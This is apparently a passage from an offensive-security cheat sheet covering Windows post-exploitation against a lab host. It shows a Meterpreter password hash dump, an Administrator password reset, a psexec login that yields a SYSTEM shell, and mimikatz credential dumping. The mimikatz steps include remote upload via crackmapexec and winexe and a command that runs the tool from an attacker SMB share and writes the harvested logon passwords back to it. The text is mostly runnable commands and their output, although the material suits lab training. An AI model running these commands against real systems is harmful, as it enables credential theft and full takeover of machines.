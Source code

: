 ```
Username       Domain    NTLM                              SHA1                                                                                              
--------       ------    ----                              ----                                                                                              
Administrator  haris-PC  cdf51b162460b7d5bc898f493751a0cc  dff1521f5f2d7436a632d26f079021e9541aba66
```

`password_change`
```
meterpreter > password_change -p ejfnIWWDojfWEKM -P akrech404 -u Administrator
[*] No server (-s) specified, defaulting to localhost.
[+] Success! New NTLM hash: 2081d1de9b8df44ed3a37963ae802d10
```
#### Login with the new password
```
┌──(kali㉿bughunt3r)-[/opt/win]
└─$ python3 psexec.py Administrator:akrech404@10.10.10.40
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.40.....
[*] Found writable share ADMIN$
[*] Uploading file MiONxDaQ.exe
[*] Opening SVCManager on 10.10.10.40.....
[*] Creating service xXQL on 10.10.10.40.....
[*] Starting service xXQL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> 
```
# mimikatz

If you have an LSASS dump, you can use the minidump module
```
mimikatz # sekurlsa::minidump lsass.DMP
```
```
mimikatz # sekurlsa::logonPasswords /full
```
* You can upload mimikatz to a remote machine with smbclient
* Or you can use crackmapexec
* Executon may fail but the binary will be uploaded in C:\\Windows\\mimikatz.exe
```
crackmapexec IP -u user -p password -M mimikatz
```

* Then you can execute remotely through winexe

```
winexe -U admin%password //IP C:\\Windows\\mimikatz.exe
```
* Password dumping
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonPasswords /full
```
* In case of Mimikatz is trigerred on the target machine, you can try bring it up using network share
```
sudo python smbserver.py SHARE /home/xxxxx/share_path/
```
```
sudo ./venv/bin/crackmapexec smb IP -u "xxx" -p "xxx" -X '\\share_ip\SHARE\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords /full" exit > \\share_ip\SHARE\mimiout_$env:computername.txt'
```